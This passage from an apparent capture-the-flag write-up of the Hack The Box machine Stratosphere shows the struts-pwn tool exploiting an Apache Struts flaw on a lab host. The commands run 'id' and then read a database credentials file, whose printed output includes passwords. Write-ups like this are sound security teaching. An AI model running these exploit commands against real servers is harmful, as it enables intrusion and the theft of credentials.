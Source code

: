 Using [struts-pwn](https://github.com/mazen160/struts-pwn) we can quickly test our target.


```
root@kali:~/htb# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action --check

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] Status: Vulnerable!
[%] Done.
```

Test code execution.

```
root@kali:~/htb# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c id

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
```

Excellent! However attempting to send a reverse shell fails, most likely due to firewall settings. We'll need to be more creative here. After much enumeration we find a `db_connect` file in `/var/lib/tomcat8`.

```
root@kali:~/htb/stratosphere# python struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'cat /var/lib/tomcat8/db_connect'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: cat /var/lib/tomcat8/db_connect
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

[%] Done.
```
